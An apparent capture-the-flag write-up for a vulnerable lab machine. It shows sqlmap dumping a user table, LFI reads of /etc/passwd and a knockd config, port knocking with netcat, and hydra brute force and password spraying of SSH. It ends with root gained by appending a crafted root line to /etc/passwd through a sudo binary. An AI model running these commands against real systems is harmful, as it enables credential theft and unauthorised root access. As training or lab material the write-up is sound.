 > SQL Injection, ssh, Password Spraying

# Ports

* **80** : Default apache setup page
* **22** : Filtered SSH
### Port 80, 22 are used for exploiting

# 80
1. `gobuster` gave /manage.php, /logout.php, /search.php, /results.php, /sessions.php, /display.php, /configure.php
2. /manage.php contains a signin form for managing records for the /display.php
3. Navigating to /configure.php and then going /manage.php gives us an admin cookie.
4. /manage.php now shows the presence of LFI vulnerbility in the footer of the website.
5. /search.php input has an sql injection vulnerability found using `sqlmap`

# 22
1. SSH Filtered found from `nmap` scans
2. `-sS` scan shows filtered and `-A` scan shows closed.
3. Some firewall is blocking the port

# EXPLOITATION

Capture the search request with burp and save the request to a file. This file is used by sqlmap to check for sql injection and enumerate database.

SSH is secured by using technique of  port knocking. `knockd` is used for implementing this. `knockd` config file is located at `/etc/knockd` and contains the rules for unlocking the port. We use the LFI in the /manage.php to obtain the file contents

## sqlmap
1. `sqlmap -r req.txt --dbs`
"sqlmap use the req.txt and enumerate **database**"

2. `sqlmap -r req.txt -D users --tables`
"Get the tables from users database"

3. `sqlmap -r req.txt -D users -t UserDetails --dump`
"Dump the table **UserDetails**

UserDetail table contains info about users and their passwords.
We can get the users in the server by exploiting the LFI vulnerability to get /etc/passwd file.
`10.0.2.16/manage.php/../../../../etc/passwd` shows us that the users in the UserDetail table maybe a part of the server file system.
`10.0.2.16/manage.php/../../../../etc/knockd`  contains ports to knock before ssh opens.

## netcat
`nc 10.0.2.16 9842`, `nc 10.0.2.16 8475`, `nc 10.0.2.16 7469`  in succession opens the ssh port

## hydra
1. Bruteforce the ssh port with login infos obtained from the table
2. `hydra -L users.txt -P pass.txt 10.0.2.16 ssh`
3. We find that only chandlerb, joeyt, janitor had the correct passwords.

# Actions in the low privilege shell

1. `ls -la` on janitor shows a directory containing some passwords.

3. We take this password and does a password spraying with the 3 new passwords on the other users.
`hydra -L users.txt -p password 10.0.2.16 ssh`

4. We find valid password for fredb

5.  Logging in as fredb and checking for `sudo`  capabilities shows us a NOPASSWD for a binary at /opt/devstuff/dist/test/test

6.  The python code for the binary is at /opt/devstuff/test.py there we can see that it requires a file to read and another file to append the content of the read file. `test read.txt append.txt`

7.  Since it can be run with sudo we can write to the /etc/passwd to create a new user with root privileges.

8.  `openssl -passwd -1 -salt 1x1x password1`
"Openssl generate an **md5** hash with using the **passwd** command by adding a **salt string** 1x1x to the password "

9. The generated hash is then used to make a string that is saved in a writable folder, /tmp in this case, as user.txt. Content of this file:
`newuser:$1$1x1x$g2jpxLRY6SfpAIFnYOwIV1:0:0::/root:/bin/bash`

10. Run the /opt/devstuff/dist/test binary:
`sudo test /tmp/user.txt /etc/passwd`

11. Switch to the `newuser` with password as `password1`
`su newuser`
12. We are now root.
